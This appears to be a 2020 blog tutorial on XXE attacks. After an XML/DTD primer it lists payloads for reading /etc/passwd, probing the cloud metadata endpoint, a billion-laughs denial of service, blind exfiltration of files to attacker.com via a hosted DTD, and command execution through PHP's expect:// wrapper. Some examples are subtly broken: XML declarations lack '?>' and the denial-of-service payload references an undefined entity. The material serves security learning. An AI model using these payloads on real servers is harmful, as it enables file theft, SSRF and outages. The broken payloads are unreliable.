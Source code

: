 ```yaml
---
layout:     post
title:      XXE
subtitle:   
date:       2020-01-13
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - XXE
---
```


### XML & DTD quick intro

What is XML
- eXtensible Markup Language
- Structured syntax
- Designed to be human readable as well as machine readable

example:
```
<?xml version = "1.0" encoding = "utf-8"?>
<plane>
	<year> 1977 </year>
	<make> Cessna </make>
</plane>
```

DTD
- Document Type Definition
- Used for defining XML document structure
- Can also defined outside of the XML file(External)

```
<!DOCTYPE root-element [element-declarations]>
```
types of entities:
- Internal entity
```
<!ENTITY foo "bar">
```
This entity can be referred within the XML as &foo; and it will be replaced 
with the term "bar".

- External entity
```
<!ENTITY foo SYSTEM "file:///external.dtd">
```
We are mostly interested in the External entities.
- Parammeter
```
<!ENTITY % name "entity_value">
```
Used with % symbol

### Introduction to XXE
### Types of attacks
1. Classic XXE
**example:**
```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe "thisistest">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John thisistest
```
This is not a vulnerability yet!

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe SYSTEM  "file:///etc/passwd">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John root:x:0:0:root
...
....[SNIP]
```
Now it is.


2. Server Side Request Forgery
**example:**
```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe SYSTEM  "http://169.254.169.254">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John 1.0
2007-01-09
2007-03-01
...
....[SNIP]
```

3. Denial of Service
**example:**
```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE lolz[<!ENTITY log "log"><!ENTITY lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol4 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol5 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol6 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol7 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol8 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol9 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">]>
<tag>&lol9;</tag>
```
4. Advanced XXE
**example:**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data[<!ENTITY % remote SYSTEM "http://attacker.com/call.dtd">%remote;]>
```
Parameter entities are special type of entities that can be used only withina DTD itself.
Tip:Use this payload to check for XXE vulnerabilities when user input is not reflected back on the page or in the response.

- Also know as Blind XXE
- Out of band data exfiltration
The payload to upload/send
```
<!DOCTYPE roottag[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/host.dtd">
%dtd;]>
<roottag>&send;</roottag>
```
Content of host.dtd
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/collect.php?file=%file;'>">
%all;
```

5. Remote Code Execution
In some rare cases XXE can be elevated to execute system commands on the server
expect:// awesomeness!
expect:// is a PHP wrapper that can provide access to stdio, stdout and stderr.
In short, it can execute commands!
Sample payload :
```
<!DOCTYPE replace [<!ENTITY ent SYSTEM "expect://whoami"> ]>
```
<https://medium.com/@airman604/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7>
### Common places to find XXE
- XML file upload(e.g config files)
- XML input fields
- XML based APIs
- XML based files(RSS,SVG)
### uncommon places to find XXE
- MS Office files(docx,xlsx,etc.)
- SAML-based SSO
- VoiceXML in IVR systems
- Online Map editors using KML


### Tools
*  Xxeserv
A mini webserver with FTP support for XXE payloads
* oxml_xxe
A tool for embedding XXE/XML exploits into different filetypes

### Labs 
<https://github.com/jbarone/xxelab>
### Resource and References
<https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html>
<https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Preve
ntion_Cheat_Sheet.html>
<https://github.com/jbarone/xxelab>
<http://vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf>
